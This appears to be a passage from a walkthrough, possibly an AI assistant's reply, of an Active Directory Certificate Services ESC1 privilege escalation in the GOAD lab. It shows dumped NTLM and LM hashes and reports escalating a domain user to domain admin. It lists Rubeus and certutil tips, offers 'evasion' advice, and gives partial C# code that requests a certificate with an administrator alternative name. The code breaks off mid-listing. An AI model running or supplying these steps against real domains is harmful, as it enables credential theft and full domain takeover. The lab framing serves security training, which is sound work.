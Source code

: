 ```bash

Credentials:
  Hash NTLM: a577fcf16cfef780a2ceb343ec39a0d9
    ntlm- 0: a577fcf16cfef780a2ceb343ec39a0d9
    lm  - 0: 367ac3b3d1f4d80b8f52a7b6e8c1d2e9
```

Excellent! We've successfully escalated from a domain user (`missandei`) to domain admin using ESC1.

**Key Improvements for ESC1 Attacks:**
- Use `/sid` parameter for accuracy and to avoid certificate mismatch issues
- `/getcredentials` flag extracts NTLM hash directly without needing TGT
- `certutil -MergePFX` provides Windows-native certificate conversion
- More specific enumeration with `/enabled /enrolleeSuppliesSubject` flags

### Advanced ESC1 Techniques

For evasion and reliability, consider these advanced approaches using the GOAD environment:

```csharp
// Custom C# implementation for certificate requests
using System.Security.Cryptography.X509Certificates;
using System.Text;
using CERTENROLLLib;

public class CertificateRequestor
{
    public string RequestCertificate(string caConfig, string template, string altName)
    {
        // Create certificate request
        var request = new CX509CertificateRequestPkcs10();
        var privateKey = new CX509PrivateKey();
        var csp = new CCspInformation();
        
        // Configure private key
        privateKey.ProviderName = "Microsoft Enhanced RSA and AES Cryptographic Provider";
        privateKey.KeySpec = X509KeySpec.XCN_AT_KEYEXCHANGE;
        privateKey.Length = 2048;
        privateKey.Create();
        
        // Build certificate request for GOAD environment
        request.InitializeFromPrivateKey(
            X509CertificateEnrollmentContext.ContextUser,
            privateKey,
            template);
            
        // Add SAN extension for administrator@essos.local
        var sanExtension = new CX509ExtensionAlternativeNames();
        var altNames = new CAlternativeNames();
        var altNameObj = new CAlternativeName();
        
        altNameObj.InitializeFromString(
            AlternativeNameType.XCN_CERT_ALT_NAME_RFC822_NAME,
            altName);
        altNames.Add(altNameObj);
        
        sanExtension.InitializeEncode(altNames);
        request.X509Extensions.Add(sanExtension);
        
        // Submit request
        var enroll = new CX509Enrollment();
        enroll.InitializeFromRequest(request);
        enroll.CertificateFriendlyName = "ESC1 Certificate";
        
```